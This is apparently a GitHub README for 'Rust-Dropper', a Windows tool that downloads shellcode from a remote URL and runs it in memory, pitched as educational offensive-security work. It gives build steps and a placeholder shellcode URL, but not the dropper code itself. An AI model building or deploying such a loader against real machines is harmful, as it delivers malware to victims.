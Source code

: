 # Rust-Dropper
A lightweight Rust-based dropper designed to fetch and execute shellcode from a remote server. 
This project demonstrates how to implement a dropper with memory allocation and shellcode execution techniques using Rust and Windows API calls. Ideal for educational purposes and exploring offensive security concepts.

## Features
- Downloads shellcode from a specified URL.
- Allocates memory and executes the downloaded shellcode.
- Utilizes Windows API calls for memory management and execution.

## Prerequisites
- Rust programming language: [Install Rust](https://www.rust-lang.org/tools/install)
- mingw-w64 for Windows target: [Install mingw-w64](http://mingw-w64.org/doku.php/download)

## Installation

Clone the repository:

```bash
git clone https://github.com/Erez-Goldberg/rust-dropper.git
cd rust-dropper
```

## Usage
Edit the main.rs file to specify the URL of your shellcode:
```bash
let url = "https://example.com/shellcode.bin";
```

## Compilation
Windows
1. Ensure you have mingw-w64 installed:
```bash
sudo apt install mingw-w64
```
2. compile the project with:
```bash
cargo build --release --target x86_64-pc-windows-gnu
```
